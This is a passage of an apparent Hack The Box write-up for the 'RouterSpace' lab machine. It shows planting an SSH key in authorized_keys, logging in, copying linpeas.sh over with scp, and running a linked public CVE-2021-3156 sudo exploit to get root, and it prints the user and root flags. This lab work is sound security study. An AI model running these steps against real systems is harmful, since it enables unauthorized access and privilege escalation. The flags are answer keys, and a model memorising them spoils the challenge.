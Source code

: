 
* Appended the id_rsa.pub to /home/paul/.ssh/authorized_keys on routerspace.htb
{{<figure src="/images/routerspace/not_sure_got_created_keys.png" title="Appending keys to authorized_keys on routerspace.htb">}}


* Logged in using id_rsa (private key)

```bash
sudo ssh -i tmp paul@routerspace.htb
[sudo] password for babayaga: 
The authenticity of host 'routerspace.htb (10.129.152.7)' can't be established.
ECDSA key fingerprint is SHA256:M4jDfH65U/Fw7jjmKhTZcb9LgW/gi23OjcLjM1bA5UY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'routerspace.htb,10.129.152.7' (ECDSA) to the list of known hosts.
Enter passphrase for key 'tmp': 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-90-generic x86_64)
```

{{<figure src="/images/routerspace/LoginUser.png" title="UserLogin">}}

### User Flag
```bash
paul@routerspace:~$ cat user.txt 
3b53f478b34b94d32ea6b38ed6815a30
```

## Privilege Escalation

* IP tables config prohibiting outgoing request, so could not get a reverse shell and can't use curl or wget to tranferfile by creating a web server locally

{{<figure src="/images/routerspace/No_outgoing_Port.png" title="Outbound connection banned maybe some iptables config">}}
* Transfered the linpeas.sh using scp as curl and wget wouldn't have worked because of iptables config

```bash
┌─[✗]─[babayaga@babayaga-virtualbox]─[/opt/Scripts]
└──╼ $sudo scp -i /home/babayaga/.ssh/tmp linpeas.sh paul@routerspace.htb:/home/paul/
Enter passphrase for key '/home/babayaga/.ssh/tmp': 
linpeas.sh                                    100%  746KB  36.8KB/s   00:20   
```

### Executing Linpeas.sh
{{<figure src="/images/routerspace/priv_esc.png" title="Vulnerable Sudo version">}}

#### Sudo version exploit

[CVE-2021-3156/exploit_nss.py at main · worawit/CVE-2021-3156 · GitHub](https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py)

=> Executed exploit and got root flag

```bash
paul@routerspace:~$ python3 exploit.py 
# ls
exploit.py  libnss_X  linpeas.sh  snap	user.txt
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
e741e9561463f0227c04aacb069e1cec
# 
```

{{<figure src="/images/routerspace/root.png" title="Root Access">}}


